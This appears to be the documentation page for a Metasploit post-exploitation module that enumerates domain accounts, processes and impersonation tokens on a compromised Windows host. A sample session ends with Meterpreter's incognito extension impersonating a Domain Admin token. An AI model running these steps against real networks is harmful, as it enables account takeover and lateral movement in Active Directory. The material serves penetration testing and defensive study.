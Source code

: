 ## Vulnerable Application

This module enumerates domain account tokens, processes running under
domain accounts, and domain users in the local Administrators, Users
and Backup Operator groups.


## Verification Steps

1. Start msfconsole
1. Get a Meterpreter session on a Windows target on a domain
1. Do: `use post/windows/gather/enum_domain_tokens`
1. Do: `set session [#]`
1. Do: `run`
1. You should receive a list of Active Directory domain accounts with impersonation tokens

## Options

## Scenarios

### Local Administrator session on Windows Server 2016

```
msf > use post/windows/gather/enum_domain_tokens
msf post(windows/gather/enum_domain_tokens) > set session 1
session => 1
msf post(windows/gather/enum_domain_tokens) > run

[*] Running module against WIN-7V3NGVNQTJ1 (192.168.200.215)
[+] Current session is running under a Local Admin account
[*] This host is not a domain controller
[*] Checking local groups for Domain Accounts and Groups

Account in Local Groups with Domain Context
===========================================

 Local Group       Member              Domain Admin
 -----------       ------              ------------
 Administrators    CORP\Domain Admins  false
 Backup Operators  CORP\asdf           false
 Users             CORP\Domain Users   false


[*] Checking for processes running under domain user

Processes under Domain Context
==============================

 Process Name  PID   Arch  User            Domain Admin
 ------------  ---   ----  ----            ------------
 cmd.exe       3504  x64   CORP\corpadmin  true
 conhost.exe   4008  x64   CORP\corpadmin  true


[*] Checking for Domain group and user tokens

Impersonation Tokens with Domain Context
========================================

 Token Type  Account Type  Account Name                                 Domain Admin
 ----------  ------------  ------------                                 ------------
 Delegation  User          CORP\corpadmin                               true
 Delegation  Group         CORP\Denied RODC Password Replication Group  false
 Delegation  Group         CORP\Domain Users                            false


[*] Post module execution completed
msf post(windows/gather/enum_domain_tokens) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: WIN-7V3NGVNQTJ1\Administrator
meterpreter > load incognito
Loading extension incognito...Success.
meterpreter > impersonate_token CORP\\corpadmin
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM
[+] Delegation token available
[+] Successfully impersonated user CORP\corpadmin
meterpreter > getuid
Server username: CORP\corpadmin
meterpreter >
```
